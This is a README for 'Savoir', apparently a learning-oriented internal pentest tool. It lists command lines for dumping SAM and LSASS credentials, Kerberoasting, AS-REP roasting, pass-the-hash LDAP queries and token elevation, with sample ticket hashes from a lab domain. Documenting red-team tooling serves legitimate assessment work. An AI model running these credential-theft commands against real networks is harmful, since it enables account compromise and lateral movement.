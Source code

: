 # Savoir

Savoir is a tool to perform tasks during internal security assessment.
This project help me to understand how some pentest tools works.


## Build

You can build `savoir` for multiple platforms:

```bash
make update
make build
```

The `build` folder contains build for multiple OS and architectures.


## Commands

### sam

```bash
savoir sam local # Windows only
savoir sam hive --sam <path/to/sam> --system <path/to/system>
savoir sam shadowcopies # Windows only
```


### lsass

```bash
savoir lsass process --json # Windows only
savoir lsass minidump --path /path/to/lsass.dmp --json
```

### kerberos


#### Ask a TGT then a TGS

You can also ask a TGS, `savoir` will ask for a `TGT` first

```bash
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$858129adc693b1a8bb62e50a51b4ffc2$9b2b...
```

You can ask a `TGT` save it to a `kirbi` files then ask for a `TGS`:

```bash
# Ask a TGT and save it to dany.kirbi
savoir kerberos asktgt --dc-ip <DC-IP> -d ubh.lab -u dany -p dany -e rc4 -o dany.kirbi
TGT saved to dany.kirbi.

# Display the TGT
savoir kerberos describe --ticket dany.kirbi
ServiceName              :  krbtgt/ubh.lab
ServiceRealm             :  UBH.LAB
UserName                 :  dany
UserRealm                :  UBH.LAB
StartTime                :  2022-01-22 09:12:55 +0000 UTC
EndTime                  :  2022-01-22 19:12:55 +0000 UTC
RenewTill                :  2022-01-29 09:12:55 +0000 UTC
Flags                    :  forwardable ; proxiable ; renewable ; initial ; pre-authent
KeyType                  :  arcfour-hmac-md5
Base64(key)              :  9CrwY3aAdXdr91h7uGi9qg==

# Ask a TGS using this TGT
savoir kerberos asktgs --dc-ip <DC-IP> -d ubh.lab -t dany.kirbi -e rc4 -r karen
$krb5tgs$23$*karen$UBH.LAB$ubh.lab/karen*$ef59ed1f3fdfddf356dd93823ad8208f$228920...
```


#### Generate Kerberos keys

Note that `RC4` key is the `NTLM` hash `(MD4(UNICODE(password)))`

```bash
savoir kerberos keys --password 'Pa$$w0rd' --salt 'CONTOSO.COMAdministrator'
arcfour-hmac-md5
  Key: 92937945b518814341de3f726500d4ff
  Iterations: 00001000

aes128-cts-hmac-sha1-96
  Key: bd75e98362b16649ffbaed630d5341d0
  Iterations: 00001000

aes256-cts-hmac-sha1-96
  Key: 660e61042b190b5724c62bb473facca12058fb9ad3c03c0d2809f839c0352502
  Iterations: 00001000
```


#### AS-REP roasting 

A User account may have the option `Do not require Kerberos preauthentication`
checked.

```bash
# target a specific user
savoir kerberos asreproast --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> --format=john
# target all users in domain
savoir kerberos asreproast --dc-ip <DOMAIN_IP> -d <DOMAIN> --ldap-user <LDAP_USERNAME> --ldap-password <LDAP_PASSWORD> rc4 --format=john
```


#### Kerberoasing

```bash
savoir kerberos asktgs --dc-ip <DOMAIN_IP> -d <DOMAIN> -u <USERNAME> -p <USER_PASSWORD> -e rc4 -r <TARGET_USER>
```


### LDAP

```bash
# Use a domain account with a password
savoir ldap query -H <LDAP_HOSTNAME> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> -q <QUERY>
savoir ldap query -H <LDAP_HOSTNAME> -d <DOMAIN> -u <USERNAME> -n <NTLM_HASH> -q <QUERY>
```


### token

```bash
savoir token elevate -x cmd.exe # Windows only
```


### webscreenshot

This command take a screenshot of a URL using a headless browser.

```bash
savoir webscreenshot --url {url} --renderer {chrome|chromium|firefox} --renderer-path {path}
```


## Credits

- [gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- [skelsec/pypykatz](https://github.com/skelsec/pypykatz)
- [SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
- [jcmturner/gokrb5](https://github.com/jcmturner/gokrb5)
